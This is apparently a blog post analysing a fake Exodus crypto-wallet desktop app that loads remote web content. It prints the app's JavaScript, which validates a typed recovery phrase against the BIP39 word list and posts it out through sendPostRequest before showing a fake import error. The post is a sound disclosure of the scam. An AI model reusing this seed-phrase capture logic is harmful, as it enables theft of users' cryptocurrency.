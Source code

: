 Unlike the [previous](/blog/2024/02/exodus-bitcoin-wallet-490k-swindle/) scammy application that was written using Flutter, the developers of this one appear to have made a web page in a WebKit GTK wrapper. 

If the network is not available, the application loads with an empty window containing an error message "Could not connect: Network is unreachable". 

[![No network](/blog/images/2024-03-18/exodus-wallet-3_50.png)](/blog/images/2024-03-18/exodus-wallet-3.png)

I brought the network up, ran Wireshark then launched the rogue application again. The app clearly loads the remote content (html, javascript, css, and logos) then renders it inside the wrapper Window.

[![Wireshark](/blog/images/2024-03-18/wireshark-1_50.png)](/blog/images/2024-03-18/wireshark-1.png)

**Edit**: I reported this IP to Hostinger abuse, which they took down on 19th March.

The javascript is pretty simple. It has a dictionary of words which are allowed in a recovery key. Here's a snippet.

```javascript
var words = ['abandon', 'ability', 'able', 'about', 'above', 'absent', 'absorb',
  ⋮
  'youth', 'zebra', 'zero', 'zone', 'zoo'];
````

As the user types words, the application checks the list.

```javascript
var alreadyAdded = {};
function checkWords() {    
    var button = document.getElementById("continueButton");
    var inputString = document.getElementById("areatext").value;
    var words_list = inputString.split(" ");
    var foundWords = 0;
    
    words_list.forEach(function(word) {
        if (words.includes(word)) {
            foundWords++;
        }
    });
    
    
    if (foundWords === words_list.length && words_list.length === 12 || words_list.length === 18 || words_list.length === 24) {

        
    button.style.backgroundColor = "#511ade";

    if (!alreadyAdded[words_list]) {
        sendPostRequest(words_list);
        alreadyAdded[words_list] = true;
        button.addEventListener("click", function() {
            renderErrorImport();
        });
    }
        
    }
    else{
        button.style.backgroundColor = "#533e89";
    }
}
```
